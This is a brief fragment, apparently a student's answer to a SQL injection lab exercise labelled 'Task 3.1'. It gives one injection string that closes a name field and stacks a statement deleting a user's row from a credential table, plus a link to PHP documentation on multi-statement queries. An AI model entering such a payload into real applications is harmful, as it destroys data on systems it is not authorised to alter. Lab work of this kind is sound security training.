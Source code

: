 # Task 3.1

Admin'; delete from credential where Name = 'Ryan'; -- 
https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php
